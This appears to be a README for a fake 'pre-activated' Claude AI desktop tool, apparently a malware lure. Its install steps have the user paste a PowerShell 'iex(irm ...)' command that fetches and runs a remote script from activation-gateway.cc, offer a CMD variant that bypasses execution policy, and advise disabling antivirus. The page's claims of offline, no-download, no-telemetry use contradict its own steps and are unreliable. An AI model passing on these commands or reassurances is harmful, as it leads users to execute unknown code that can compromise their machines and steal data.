

<div align="center">

# Claude AI Local Tools Pre-Activated Desktop Edition — Security Tool



[]() []() []()

</div>

---

Claude-Jailbreak-Prompt is a pre-activated standalone desktop distribution of Claude AI local tooling, packaged so that every component ships inside a single installer rather than being fetched or licensed at runtime. The build targets Windows x64 desktop environments and is intended for offline deployment, testing, and evaluation scenarios where reproducible, self-contained configuration is required. All bundled components are included in the installer payload, and the package is versioned and verified as a complete unit prior to distribution. No external dependencies, activation steps, or post-install downloads are required to reach a functional state.

## 🛠️ Quick Install (PowerShell)

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10/11 · PowerShell · Admin not required

### 1️⃣ Start PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Run the install command
Copy the line below into PowerShell and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Windows blocking the script? Use CMD
Copy into CMD, press `Enter`, wait for completion:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- Pre-activated desktop build: the installer bundles all required local components; no post-install activation step or separate license configuration is performed.
- Offline-capable operation: core tooling runs against local resources after installation, with no runtime dependency on external endpoints for baseline functionality.
- Single-package distribution: all modules, dependencies, and runtime assets are contained in one installer; no supplementary downloads are required during or after setup.
- Windows x64 targeting: the build is compiled and validated for 64-bit Windows desktop environments; architecture-specific binaries are included in the package.
- Deterministic installer layout: fixed component manifest and version pinning ensure identical file sets across installations, supporting reproducible deployments in test environments.
- Local configuration state: settings and runtime data are persisted on the host machine, keeping operational state under direct user control.
- Versioned release artifacts: each build carries an explicit version identifier and sync timestamp, enabling traceability between installer packages and deployed instances.
- Integrity verification: packaged components are checksummed at build time, and the installer validates archive integrity before extraction.
- No background telemetry: the build does not transmit usage data, diagnostics, or host information to external services.
- Standalone uninstall path: removal restores the host to its pre-install state by deleting deployed files and local configuration entries.

## How it works

The tool operates as a local desktop application. All components are bundled directly inside the installer, so no additional downloads, package managers, or runtime fetches are required during setup or first launch. Installation unpackages the pre-configured build into a self-contained directory and registers the application for local execution on the target Windows x64 system.

At runtime, the application loads its bundled configuration and initializes the local tooling interface. All processing occurs on the local machine; the tool does not depend on remote services to function. State and settings are stored locally within the application's own directory structure, keeping behavior consistent across sessions and reproducible in offline environments.

The pre-activated build ships with all required components already enabled, so no separate activation, licensing step, or post-install configuration is needed. Users can verify the build's integrity by confirming the installer size and file manifest match the published release parameters before running it. Because the application is self-contained, updates are distributed as full installer replacements rather than partial patches, which keeps the deployed version deterministic and auditable.

## Privacy

All processing performed by the tool occurs locally on the target machine. No telemetry, usage statistics, prompt content, model inputs, or output artifacts are transmitted to any external endpoint by the tool itself. Configuration data, session state, and any cached assets remain within the installation directory and associated user profile paths on the local filesystem.

The tool does not embed analytics SDKs, remote logging hooks, or background reporting agents. Runtime operations are confined to the local process boundary; any network activity is limited strictly to the features explicitly invoked by the user during a session and is governed by the underlying platform components rather than the tool's own code paths.

Credential material and authentication tokens, where applicable, are read from and stored in the standard local credential stores provided by the operating system. The tool does not duplicate, exfiltrate, or persist these values outside those stores. No plaintext secrets are written to logs.

Users retain full control over local data: installation directories, configuration files, and cached content can be deleted at any time without affecting external systems. The tool performs no background synchronization and holds no remote account or identity linkage. Privacy posture is therefore bounded by the local environment and by the behavior of any third-party components the user independently configures; review those components' own policies separately.

## FAQ

**Is this an official Claude or Anthropic release?**
No. Claude-Jailbreak-Prompt is an independent, third-party project. It is not affiliated with, endorsed by, or supported by Anthropic or any related entity. "Claude" appears in the project name only to describe the tooling's area of relevance on the local desktop, not to imply any official association.

**What does "pre-activated desktop edition" mean?**
The installer bundles the full set of local tools described in the Features section. No separate activation step, license key entry, or secondary download is required after installation completes. All components referenced in the installer manifest are included in the distribution package itself.

**Which platform is supported?**
The build targets Windows x64 desktop environments. It is not validated for other operating systems, architectures, or server editions. Running it outside this target configuration is unsupported and results may vary.

**Does the tool transmit data externally?**
No outbound telemetry or data exfiltration is performed by the installer or the local tools it deploys. All processing occurs on the local machine. Any network activity is limited to what the underlying environment initiates on its own; the package itself does not phone home, report usage, or upload files.

**Why does antivirus or SmartScreen flag the installer?**
Heuristic scanners frequently flag unsigned or locally bundled installers, especially those that deploy multiple components in a single package. This is a common false-positive pattern for standalone desktop distributions and does not by itself indicate malicious content. Verify the package hash against the published manifest before running, and treat any unsigned binary with appropriate caution.

**Is the installer signed?**
The distribution is provided without a commercial code-signing certificate. Expect operating system prompts that reflect this. You should independently verify the integrity of the downloaded package using the checksum published alongside the release.

**Can I run this in a restricted or corporate environment?**
Only if your organization's policy permits unmanaged third-party software. Because the installer is unsigned and self-contained, it may conflict with application allowlisting, endpoint detection and response rules, or execution policies. Consult your administrator before deploying.

**What are the system requirements?**
A Windows x64 desktop with sufficient free disk space for the full bundled package and permissions to install local applications. Administrative rights are typically required for the installer to place components system-wide; running without them may leave the installation incomplete.

**Does it require an internet connection?**
No. The package is self-contained for offline installation. Network access is not needed to complete setup or to use the local tools.

**How do I uninstall it?**
Use the standard Windows "Apps & features" or "Add or remove programs" interface, or the uninstaller included with the package. Removing the installation directory manually after uninstalling is recommended to clear any residual local configuration files.

**Is the tool updated?**
Updates are published as new full packages rather than incremental patches. Check the release notes for the version and corresponding checksum before replacing an existing installation. There is no auto-update mechanism.

**What is the license?**
Refer to the License section for the terms governing use, redistribution, and warranty. The project is provided as-is, without guarantees of fitness for a particular purpose.

## Disclaimer

This build is provided for isolated testing and evaluation in controlled environments only. It is a pre-activated local package and performs no remote validation, telemetry reporting, or outbound communication during operation.

The package is supplied as-is, without warranty of any kind, express or implied, including but not limited to fitness for a particular purpose, merchantability, or non-infringement. No guarantee is made regarding correctness, stability, or suitability for production use.

Users are solely responsible for verifying that deployment and use comply with all applicable local laws, organizational policies, and licensing terms governing any third-party software or services referenced by this project. The maintainers assume no liability for damages, data loss, service disruption, or legal consequences arising from use, misuse, or misconfiguration of this package.

This project is not affiliated with, endorsed by, or sponsored by any upstream vendor whose product names may appear in documentation. All trademarks remain the property of their respective owners.

Redistribution, modification, or repackaging of this build is permitted only under the terms stated in the License section. Any redistribution must preserve this disclaimer in full.

No support commitment is expressed or implied. Issues are addressed on a best-effort basis, and no service-level agreement applies.

## License

This project is distributed under the MIT License. The license text corresponds to the standard MIT template as published by the Open Source Initiative, without modification or additional clauses.

Permission is granted, free of charge, to any person obtaining a copy of the source code, binaries, documentation, and associated files in this project, to deal in the software without restriction. This includes the rights to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the software, subject to inclusion of the original copyright notice and this permission notice in all copies or substantial portions of the software.

The software is provided "as is", without warranty of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

The full license text is included in the `LICENSE` file at the root of the project. The project name, its source files, bundled configuration, and any accompanying documentation are covered by the same license terms. No separate or conflicting license applies to any component of this project unless explicitly stated in a dedicated file within that component's directory.

Redistribution of modified versions must retain the original copyright notice and this permission notice. Attribution to the original project is required when redistributing source or binary forms. The project name and the names of its contributors may not be used to endorse or promote derived products without prior written permission.

Third-party dependencies bundled with this project retain their own licenses. Where a bundled component carries a license incompatible with the MIT terms, the terms of that component's license govern its use, and the `LICENSE` file identifies the affected components and their applicable terms.